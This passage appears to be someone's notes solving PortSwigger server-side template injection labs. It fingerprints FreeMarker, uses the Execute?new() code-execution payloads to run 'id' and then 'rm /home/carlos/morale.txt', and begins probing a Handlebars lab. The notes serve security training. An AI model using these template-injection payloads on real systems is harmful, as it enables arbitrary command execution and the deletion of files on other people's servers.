 definitly not Mako or smarty


    try: ${system(echo hello)}
    get:FreeMarker template error (DEBUG mode; use RETHROW in production!): The following has evaluated to null or missing: ==> system [in template "freemarker" 

now we know its FreeMarker!

check doumentation:
https://freemarker.apache.org/docs/index.html

from:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#freemarker---code-execution

    <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
    [#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
    ${"freemarker.template.utility.Execute"?new()("id")}


try: <#assign ex = "freemarker.template.utility.Execute"?new()>${ex('id')}
get: uid=12002(carlos) gid=12002(carlos) groups=12002(carlos) 

finale payload:
    <#assign ex = "freemarker.template.utility.Execute"?new()>${ex('rm /home/carlos/morale.txt')}

# success!


# 3. Lab: Server-side template injection in an unknown language with a documented exploit
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit

To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory


explore site observe product 1 is out of stock and triggers a GET response:
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock 

this is injection point:

try: {{7*7}} 
get: /usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267
            throw new Error(str);
            Error: Parse error on line 1:
    {{7*7}}
    --^
    Expecting &apos;ID&apos;, &apos;STRING&apos;, &apos;NUMBER&apos;, &apos;BOOLEAN&apos;, &apos;UNDEFINED&apos;, &apos;NULL&apos;, &apos;DATA&apos;, got &apos;INVALID&apos;

searching for:
'CLOSE_RAW_BLOCK', 'CLOSE', 'CLOSE_UNESCAPED', 'OPEN_SEXPR', 'CLOSE_SEXPR', 'ID', 'OPEN_BLOCK_PARAMS', 'STRING', 'NUMBER', 'BOOLEAN', 'UNDEFINED', 'NU
